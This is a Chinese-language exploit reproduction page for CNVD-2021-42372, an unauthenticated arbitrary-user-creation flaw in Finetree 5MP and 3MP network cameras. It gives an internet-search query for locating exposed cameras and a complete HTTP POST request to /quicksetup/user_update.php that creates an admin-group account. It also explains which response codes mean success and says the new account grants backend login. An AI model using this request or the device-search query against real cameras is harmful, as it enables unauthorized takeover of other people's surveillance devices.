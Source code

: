 # 

# Finetree 5MP 摄像机 user_pop.php 任意用户添加漏洞 CNVD-2021-42372

## 漏洞描述

Finetree 5MP 摄像机 user_pop.php文件存在未授权任意用户添加，攻击者添加后可以获取后台权限

## 漏洞影响

```
Finetree 5MP
Finetree 3MP
```

## 网络测绘

```
app="Finetree-5MP-Network-Camera"
```

## 漏洞复现

登录页面

![image-20220519162837184](./images/202205191628247.png)

存在漏洞的文件 user_pop.php

![image-20220519163003628](./images/202205191630679.png)

```
POST /quicksetup/user_update.php HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 58
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=fn4qnpv5c8a2jgvf53vs1gufm6
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

method=add&user=admin1234&pwd=admin1234&group=2&ptz_enable=0
```

可以Burpsuite发送POST请求

![image-20220519163205310](./images/202205191632366.png)

或者HackBar发送POST请求，返回200即为添加成功，返回804则为用户重复

![image-20220519163124031](./images/202205191631102.png)

利用添加的账户可以登录后台

![image-20220519163442946](./images/202205191634048.png)
